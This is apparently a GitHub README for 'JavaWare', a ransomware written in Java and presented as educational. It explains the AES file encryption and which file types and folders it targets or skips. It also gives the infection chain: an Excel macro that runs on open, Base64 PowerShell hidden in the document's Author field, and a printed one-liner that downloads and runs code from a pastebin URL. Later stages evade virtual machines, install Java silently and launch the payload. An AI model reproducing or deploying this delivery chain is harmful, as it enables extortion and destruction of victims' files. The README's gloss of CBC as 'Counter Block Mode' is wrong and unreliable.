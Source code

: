 # JavaWare
### A Ransomware Built in Java

#### Disclaimer
> I built this purely for **educational purposes**. I take no responsibility and/or liability for how you choose to use any of the code available here. If executing the ransomware, please do not do so on your own machine as it will encrypt your files. Although I did include a function to decrypt, I am in no way responsible. 

JavaWare is a ransomware which will observe your system, learn which files you use, and then encrypts your machine. Once all files have been encrypted it will launch the payload screen. 

![alt text](https://raw.githubusercontent.com/kyralmozley/JavaWare/V1.0/Screenshots/Pay%20Load.png "Launch Screen")

### How does it learn which files I use?
Maths. 

### How does it encrypt? :lock:
AES 128 bit Encryption in CBC Mode (Counter Block Mode ) PKCS5 Padding <br/>
AES is a symmetric encryption algorithm which works on blocks of a fixed size (16 bytes for AES128). *Padding* (PKCS5) is used if the block is less than 16 bytes long. We split the stream into 16 byte blocks, which is encrypted using AES and the result is XORed with the next block in the stream before it is encrypted. For the first block, it XORs it with an *initialization vector*, a random 16 byte value. 

### What does it encrypt?
*FileTypes.java* defines what type of files to encrypt, it includes common document types and so will avoid program files to ensure your system is still functional. Similarly, *AvoidedDir.java* includes directories to avoid in traversal, such as *Windows* and *Program Files*. 

### How does it launch?
The Microsoft Excel file, *August Report.xlsm* contains a Macro which is run on Workbook Open. Encoded Base64 PowerShell code is hidden within this file under the 'Author' field[1]. So the macro calls a function which gets the author, decodes it, and then runs the shell. The PowerShell script is: 
```powershell
Powershell Invoke-Expression -Command  $([string]([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Invoke-WebRequest -Uri https://pastebin.com/raw/1538VQvN).content))))
```
This piece of code downloads another Base64 encoded powershell script, that checks whether or not the system is running in a virtual machine. If it is, it stops. This is a classic trick used by sophisticated malware such that analyst cannot then observe and reverse engineer the malware. 

Once it has established it is not in a VM, it then downloads code to check whether Java is currently installed in the system, if not, it downloads the latest version silently in the background. 

Lastly, it downloads and launches the jar. 

```powershell
$JAVA_VERSION = Get-ChildItem -Path "C:\Program Files\Java" | Select-String -Pattern 'jdk-'
$java = "C:\Program Files\Java\" + $JAVA_VERSION + "\bin\java.exe"
Start-Process -FilePath $java -ArgumentList '--module-path "C:\temp\javafx-sdk-11.0.2\lib" --add-modules=javafx.controls -jar temp\JavaWare.jar' -NoNewWindow
```

###






### References:
[\[1\]: The Increased Use of PowerShell in Attacks - Symantec](https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.

